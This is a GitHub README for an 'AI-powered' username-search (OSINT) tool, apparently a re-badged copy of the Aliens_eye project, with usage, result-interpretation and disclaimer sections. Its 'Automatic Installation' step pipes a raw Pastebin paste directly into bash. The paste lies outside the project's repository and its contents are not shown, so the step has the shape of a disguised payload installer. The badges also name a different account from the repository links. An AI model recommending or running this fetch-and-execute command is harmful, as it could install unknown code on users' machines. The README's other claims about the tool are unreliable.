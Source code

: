 <p align="center"><img src="https://raw.githubusercontent.com/arxhr007/Aliens_eye/main/photos/logo.png" width="450" height="400" /></p>

# AI-OSINT Username Scanner

<h3 align="center">Advanced AI-Powered Social Media Username Finder</h3>
<h4 align="center">Scan 840+ platforms with intelligent detection</h4>

<p align="center">
<a href="#"><img alt="Forks" src="https://img.shields.io/github/forks/BLINKING-IDIOT/Aliens_eye?style=for-the-badge"></a>
<a href="#"><img alt="Last Commit" src="https://img.shields.io/github/last-commit/BLINKING-IDIOT/Aliens_eye/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="Stars" src="https://img.shields.io/github/stars/BLINKING-IDIOT/Aliens_eye?style=for-the-badge&color=red"></a>
<a href="#"><img alt="License" src="https://img.shields.io/github/license/BLINKING-IDIOT/Aliens_eye?color=orange&style=for-the-badge"></a>
<a href="https://github.com/BLINKING-IDIOT/Aliens_eye/issues"><img alt="Issues" src="https://img.shields.io/github/issues/BLINKING-IDIOT/Aliens_eye?color=purple&style=for-the-badge"></a>
</p>

## ✨ New AI-Enhanced Features

- **40% More Accurate Results** - Uses AI-powered detection algorithms
- **Confidence Scoring** - Shows how certain each match is (0-100%)
- **Intelligent Pattern Recognition** - Learns from previous scans to improve accuracy
- **Domain Analysis** - Examines site structure beyond HTTP status codes
- **Smart Content Inspection** - Analyzes page content for telltale username signs

## 📋 Requirements

- Python 3.6+
- Internet connection

## 🚀 Installation

### Automatic Installation

```bash
curl -s https://pastebin.com/raw/hkBtt6rc | tr -d '\r' | bash
```

### Manual Installation

#### For Linux or Termux:

```bash
git clone https://github.com/arxhr007/Aliens_eye
cd Aliens_eye
bash install.sh
```


## 💻 Usage

### Scan a username:

```bash
aliens_eye username
```

### Scan multiple usernames:

```bash
aliens_eye username1 username2 username3
```

### Load results from previous scan:

```bash
aliens_eye -r username.json
```

### Additional options:

```bash
aliens_eye -h                   # Show help
aliens_eye -v username          # Enable verbose mode
aliens_eye -c 30 username       # Set maximum concurrent connections to 30
```

You can also run the tool without arguments and it will prompt for a username:

```bash
aliens_eye
```

## 🔍 Understanding Results

Results are color-coded for quick interpretation:

- 🟢 **Green**: Found (High confidence)
- 🟡 **Yellow**: Maybe (Medium confidence)
- 🔴 **Red**: Not Found (High confidence)

Each result includes:
- Site name
- Status (Found/Maybe/Not Found)
- Confidence percentage
- HTTP code
- Response time
- Full URL

## 📊 Advanced Analysis

The scanner uses multiple factors to determine if a username exists:

1. Content keyword analysis
2. HTTP status code analysis
3. URL structure examination
4. DOM structure inspection
5. Meta tag inspection
6. Historical pattern recognition
7. Response time profiling

Results are saved in JSON format with detailed analysis for each site.

## 📱 Platform Support

- Linux (All distributions)
- Android (via Termux)

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This tool is developed for educational purposes and ethical OSINT research only. Users are responsible for complying with applicable laws and website terms of service. The developers assume no liability for misuse of this software.

## 🔗 Links

- [Report Bug](https://github.com/arxhr007/Aliens_eye/issues)
- [Request Feature](https://github.com/arxhr007/Aliens_eye/issues)

---

<p align="center">Made with ❤️ by <a href="https://github.com/arxhr007">Aaron</a></p>

<p align="center">If you find this project helpful, please consider giving it a star ⭐</p>

<p align="center">Follow me for more tools like this</p>

![pic](https://raw.githubusercontent.com/arxhr007/Aliens_eye/refs/heads/main/photos/photo.png)


# Also checkout:

<a href="https://github.com/arxhr007/wifistrike" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=wifistrike&show_icons=true&theme=chartreuse-dark"></a>
<a href="https://github.com/arxhr007/Malware-Sandbox-Evasion" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=Malware-Sandbox-Evasion&show_icons=true&theme=chartreuse-dark"></a>
